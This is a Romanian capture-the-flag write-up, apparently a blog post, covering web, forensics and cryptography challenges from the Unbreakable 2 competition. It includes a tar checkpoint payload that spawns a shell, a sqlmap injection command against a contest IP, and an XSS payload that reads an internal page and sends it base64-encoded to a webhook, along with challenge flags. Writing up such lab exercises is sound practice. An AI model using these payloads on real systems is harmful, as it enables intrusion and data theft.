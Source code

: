 ```yaml
---
title : Unbreakable 2
published : true
date: 2020-12-18T12:59:05+02:00
author : PS
---
```



## Contents

- Tartarsausage(web)    

- Sherlock's Mystery(Forensics)    

- small-data-leak(web)    

- HiddenTypo(Forensics)    

- frameble(web) 

- war-plan(cryptography, steganography)  

- conclusion

### Tartarsausage  
Tartarsausage la prima vedere parea o mare durere de cap    
In momentul accesarii paginii , suntem intampinati de un file upload    


![test](tts1.png)
Am incercat tot ce se puteam incerca , de la payloads in php pana la xss (unde am gasit un xss in name-ul imaginilor )  
So, am inceput sa rulez un dirb , poate gaseste ceva,  
Singurul lucru gasit a fost un index.php care nu m-a ajutat cu nimic  
Dar dupa ce m-am uitat in codul sursa al paginii am gasit :   

{{< highlight go  >}}
form action="sadjwjaskdkwkasjdkwasdasdas.html" method="POST"
{{< / highlight >}}
Nu vreti sa stiti cat am ras cand am vazut pagina ascunsa ROFL

Accesand pagina gasim 


![test](tts2.png)
Avem deja un mare *hint* **Enter TAR**  
so, dat find faptul ca nu sunt foarte bun cu tar (nu sunt bun deloc) a trebuit sa fac niste googling si am dat de GTFOBins
si aveau un payload pt asta :  
{{< highlight go  >}}
-cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
{{< / highlight >}}
Dupa asta cam tot a fost usor , inlocuiesti */bin/sh* cu ls -la , iar dupa ce descoperi fisierul cu flag-ul , mai trebuie un simplu cat  
{{< highlight go >}} Flag Proof : ctf{d618f4caf3fdca9634a6ab498883a992f2a125b891165b30a5925f2845708ab7}{{< / highlight >}}  


### Sherlock's Mystery
Acest chall a fost destul de ciudat , iar prin ciudat ma refer la faptul ca se rezolva prin simpla citire a fisierului dat  
Dupa ce decodam un string gasit la linia 216 avem flag-ul  
{{< highlight go >}}  Flag Proof :  ctf{thisisthe1stflag} {{< / highlight >}}  


### small-data-leak
small-data-leak sau SDL cum imi place sa ii spun a fost o simpla sqli vulnerabilitate , in descrierea chall-ului gasim /user?id=
ceea ce ne indica aceasta vulnerabilitate , fara sa mai vizitez pagina m-am dus direct la sqlmap  
{{< highlight go >}}   sqlmap -u 'http://35.198.183.125:30321/user?id=1' --tables {{< / highlight >}}
si gata , avem flag-ul :D !
{{< highlight go >}}   Flag Proof : ctf{70ff919c37a20d6526b02e88c950271a45fa698b037e3fb898ca68295da2fc0a}  {{< / highlight >}}  




### HiddenTypo
Parere personala , din toate chall-urile de la unbr 2 acesta a fost cel mai enervant =))  
Din cauza ca nu am citit atent partea de descriere a chall-ului am pierdut mult timp.  
Am folosit volatility.  
Voi taia direct la solutie, in descriere gasim greseala : **tikcket**  
Comanda finala fiind : 
{{< highlight go >}}   volatility_2.6_lin64_standalone -f admin.bin --profile=Win7SP1x64  dumpfiles -Q 0x000000007e045970 --name tikcket.png -D funny   {{< / highlight >}}  
Am mai pierdut timp deoarece am uitat ca e o imagine , iar in loc sa o deschid ca un om normal i-am dat *cat* :D  
Iar finalul grandios a fost : 


![test](lmao.png)
**Puteam sa ghicesc aia** 

### frameble 
frameble este fratele mai mic al lui cross-me de la DCTF-2020 =))  
In mare parte a fost easy , deoarece  a mai fost dat , voi pune direct payload-ul  


{{< highlight go >}}     "><script>fetch('http://127.0.0.1:1234/index.php?page=post&id=33').then(function(response){return response.text();}).then(function(myText){location='webhook'+btoa(myText) });</script> {{< / highlight >}}

in contentul criptat in base64 din response gasim in **body** flag-ul

{{< highlight go >}}    Flag Proof : CTF{ce6675f186ac75938de69ba5037fa42f792e0041404456d11b1a80d072f4b547} {{< / highlight >}}


### war-plan  
In war-plan primim un .wav file, dupa ce am ascultat 4 secunde fisierul am realizat ca e morse code  
Asa ca am cautat pe *gugle* ceva tool si am gasit , apoi au venit 30 de min dureroase de ascultat numai beep-boop-beep  
Am luat codul final  
{{< highlight go >}}   THE BATTLE OF THE BULGE, ALSO KNOWN AS THE ARDENNES COUNTEROFFENSIVE, WAS THE LAST MAJOR GERMAN OFFENSIVE CAMPAIGN ON THE WESTERN FRONT DURING WORLD WAR II, AND TOOK PLACE FROM 16 DECEMBER 1944 TO 25 JANUARY 1945. IT WAS LAUNCHED THROUGH THE DENSELY FORESTED ARDENNES REGION OF WALLONIA IN EASTERN BELGIUM, NORTHEAST FRANCE, AND LUXEMBOURG, TOWARDS THE END OF THE WAR IN EUROPE. THE OFFENSIVE WAS INTENDED TO STOP ALLIED USE OF THE BELGIAN PORT OF ANTWERP AND TO SPLIT THE ALLIED LINES, ALLOWING THE GERMANS TO ENCIRCLE AND DESTROY FOUR ALLIED ARMIES AND FORCE THE WESTERN ALLIES TO NEGOTIATE A PEACE TREATY IN THE AXIS POWERS' FAVOR. XXGVXVVVXDVAAFGXFGGXXAGXFVGGAAFAAVVADDVGDGGGVAAAGGXDFXXVDXXVVAVGGAGGXVVAVVGAVGFVVDVV BEFORE THE OFFENSIVE THE ALLIES WERE VIRTUALLY BLIND TO GERMAN TROOP MOVEMENT. DURING THE LIBERATION OF FRANCE, THE EXTENSIVE NETWORK OF THE FRENCH RESISTANCE HAD PROVIDED VALUABLE INTELLIGENCE ABOUT GERMAN DISPOSITIONS. ONCE THEY REACHED THE GERMAN BORDER, THIS SOURCE DRIED UP. IN FRANCE, ORDERS HAD BEEN RELAYED WITHIN THE GERMAN ARMY USING RADIO MESSAGES ENCIPHERED BY THE ENIGMA MACHINE, AND THESE COULD BE PICKED UP AND DECRYPTED BY ALLIED CODE-BREAKERS HEADQUARTERED AT BLETCHLEY PARK, TO GIVE THE INTELLIGENCE KNOWN AS ULTRA. IN GERMANY SUCH ORDERS WERE TYPICALLY TRANSMITTED USING TELEPHONE AND TELEPRINTER, AND A SPECIAL RADIO SILENCE ORDER WAS IMPOSED ON ALL MATTERS CONCERNING THE UPCOMING OFFENSIVE. 42 THE MAJOR CRACKDOWN IN THE WEHRMACHT AFTER THE 20 JULY PLOT TO ASSASSINATE HITLER RESULTED IN MUCH TIGHTER SECURITY LRX09BF1W3QUKJP52M4ZDCHOSYIE6VG8NAT7 AND FEWER LEAKS. THE ATTACKS BY THE SIXTH PANZER ARMY'S INFANTRY UNITS IN THE NORTH FARED BADLY BECAUSE OF UNEXPECTEDLY FIERCE RESISTANCE BY THE U.S. 2ND AND 99TH INFANTRY DIVISIONS. KAMPFGRUPPE PEIPER, AT THE HEAD OF SEPP DIETRICH'S SIXTH PANZER ARMY, HAD BEEN DESIGNATED TO TAKE THE LOSHEIM-LOSHEIMERGRABEN ROAD, A KEY2: SECONDWORLDWAR ROUTE THROUGH THE LOSHEIM GAP, BUT IT WAS CLOSED BY TWO COLLAPSED OVERPASSES THAT GERMAN ENGINEERS FAILED TO REPAIR DURING THE FIRST DAY. {{< / highlight >}}
 ce era 80% plain text , dar avea 3 strings foarte interesante : 
key2 : secondworlwar
XXGVXVVVXDVAAFGXFGGXXAGXFVGGAAFAAVVADDVGDGGGVAAAGGXDFXXVDXXVVAVGGAGGXVVAVVGAVGFVVDVV
LRX09BF1W3QUKJP52M4ZDCHOSYIE6VG8NAT7  
Ok, luand in considerare ca vorbim se second world war si de germania well realizam ca este vorba despre ADFGVX cipher **sad natzi noises** (joking =)) )  
**KABOOM**
Decriptam codul si poc avem flag-ul 

{{< highlight go >}}   Flag Proof : defendthewestgateofthefortresswithallcosts -> ctf{70cca323b9e0af74985285521f5751106a34f5c0b534e3f14c24c8fca027d9fc} {{< / highlight >}}




### Conclusion 

I got 9th place with 6/12 challs resolved <3 
![test](top.png)










